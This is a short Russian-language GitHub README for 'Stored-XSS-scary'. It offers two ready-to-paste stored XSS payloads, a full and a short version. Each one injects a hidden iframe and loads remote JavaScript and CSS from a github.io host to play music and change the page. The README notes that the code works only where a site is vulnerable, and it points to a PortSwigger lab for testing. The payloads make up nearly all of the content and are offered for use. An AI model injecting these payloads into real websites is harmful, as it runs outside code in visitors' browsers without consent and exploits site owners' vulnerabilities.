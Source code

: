 # Stored-XSS-scary

Код сработает только при наличии уязвимости stored XSS + сайт не будет блокировать загрузку внешних скриптов и стилей. <br>
Для теста можно запустить лабараторку в https://portswigger.net/web-security/cross-site-scripting/stored/lab-html-context-nothing-encoded.

------------------------------------------

Полная версия (музыка + CSS + доп. JS скрипты) [540 символов]:
> <script>var f=document.createElement("iframe");f.style.display="none";document.body.appendChild(f);f.onload=function(){var s=document.createElement('script');s.src='https://0-dayff13r.github.io/Stored-XSS-scary/start.js';f.contentWindow.document.head.appendChild(s);var c=document.createElement('link');c.rel='stylesheet';c.href='https://0-dayff13r.github.io/Stored-XSS-scary/styles.css';document.head.appendChild(c);var r=document.createElement('script');r.src='https://0-dayff13r.github.io/Stored-XSS-scary/script.js';document.body.appendChild(r)}</script>

<br> Сокращенная версия (только музыка) [269 символов]:
> <script>var f=document.createElement("iframe");f.style.display="none";document.body.appendChild(f);f.onload=function(){var s=document.createElement('script');s.src='//0-dayff13r.github.io/Stored-XSS-scary/start.js';f.contentWindow.document.head.appendChild(s)}</script>
